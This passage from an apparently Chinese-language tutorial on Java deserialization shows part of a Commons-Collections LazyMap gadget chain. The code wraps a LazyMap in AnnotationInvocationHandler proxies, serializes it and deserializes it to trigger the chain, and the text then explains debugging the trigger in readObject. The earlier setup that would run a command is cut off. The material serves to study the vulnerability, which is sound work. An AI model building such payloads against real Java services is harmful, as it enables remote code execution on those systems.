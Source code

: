 ```java
        annoConstructor.setAccessible(true);

        // 利用构造函数实例化,创建与 lazyMap 关联的 InvocationHandler
        InvocationHandler lazyMapHandler = (InvocationHandler) annoConstructor.newInstance(Retention.class, lazyMap);

        // 实例化代理对象,proxyMap 调用的方法都会被转发 InvocationHandler#invoke 方法
        Map proxyMap = (Map) Proxy.newProxyInstance(
            Map.class.getClassLoader(),
            new Class[]{Map.class},
            lazyMapHandler
        );

        // 使用 AnnotationInvocationHandler 对 proxyMap 重新包裹
        InvocationHandler proxyMapHandler = (InvocationHandler) annoConstructor.newInstance(Retention.class, proxyMap);

        // Serialization
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(proxyMapHandler);
        oos.close();
        baos.close();

        // Deserialization
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
        ois.close();

    }
}

```

## 反序列化触发
这里在`AnnotationInvocationHandle#readObject()`中打下断点开始调试，此处的`this.memberValues`其实就是`LazyMap`，而前面用`AnnotationInvocationHandler`对`LazyMap`对象进行代理。也就是说只要调用任意方法，就会进入到`AnnotationInvocationHandler#invoke()`方法中
